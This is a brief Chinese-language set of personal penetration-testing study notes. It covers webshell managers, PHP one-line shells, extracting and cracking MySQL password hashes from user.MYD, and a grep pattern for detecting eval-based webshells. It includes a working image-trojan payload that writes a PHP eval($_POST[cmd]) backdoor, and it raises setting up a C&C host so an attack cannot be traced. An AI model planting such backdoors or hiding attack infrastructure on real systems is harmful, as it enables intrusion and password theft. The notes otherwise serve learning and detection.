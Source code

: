 # 渗透学习笔记

- 菜刀类的webshell 管理工具使用：如 antsword, bihinder等。
- 常用一句话shell（任意文件上传漏洞）
- MIME content-type:分类类型/具体类型 参考 developer.mozilla.org/zh-CN/docs/Web/HTTP
- PHP `_FILES`
- hash破解网站：https://yq.aliyun.com/articles/608365
- mysql hash

MYSQL数据库的认证密码有两种方式:
- MYSQL 4.1版本之前是MYSQL323加密;
- MYSQL 4.1和之后的版本都是MYSQLSHA1加密.

MYSQL数据库中自带Old_Password（str）和Password（str）函数,它们均可以在MYSQL数据库里进行查询，前者是MYSQL323加密，后者是MYSQLSHA1方式加密。

以MYSQL323方式加密

`SELECT Old_Password('bbs.antian365.com');`
查询结果MYSQL323 = 10c886615b135b38

（2）以MYSQLSHA1方式加密

`SELECT Password('bbs.antian365.com');`

在MYSQL数据库中所有设置默认都保存在“C:\Program Files\MYSQL\MYSQL Server 5.0\data\MYSQL” 或 “/var/lib/mysql”中，也就是安装程序的data目录下，如图2所示，有关用户一共有三个文件即user.frm、user.MYD和user.MYI，MYSQL数据库用户密码都保存在user.MYD文件中，包括root用户和其他用户的密码。MYSQL数据库文件共有“frm”、“MYD”“和MYI”三种文件，“.frm”是描述表结构的文件，“.MYD”是表的数据文件，“.MYI”是表数据文件中任何索引的数据树。

使用UltraEdit-32编辑器直接打开user.MYD文件，打开后使用二进制模式进行查看，如图3所示，可以看到在root用户后面是一串字符串，选中这些字符串将其复制到记事本中，这些字符串即为用户加密值，即506D1427F6F61696B4501445C90624897266DAE3。将MYSQL用户密码字符串加入到Cain破解列表

- 渗透中常用的php函数：phpinfo(); eval();
- php http常用方法变量： $_POST $_REQUEST
- 查找常见的webshell检测列表，例如：使用`grep -R 'eval($_)' /目录`可以进行简单的检测。fgrep
- linux 系统中的敏感文件
- 网站下的敏感文件
- 图片木马 ,制作图片木马 `<?fputs(fopen("shell20.php","w"),'?php eval($_POST[cmd]);?>')?>`
- 收集常用的webshell，一句话
- 如何查看某个文件由谁上传、编辑？
- 如何设置cc主机？防止溯源
- AWVS
- APPSCAN
- MYSQL 中有 information_schema，其它数据类似的？
- 可用的xss
- netsh命令使用

- 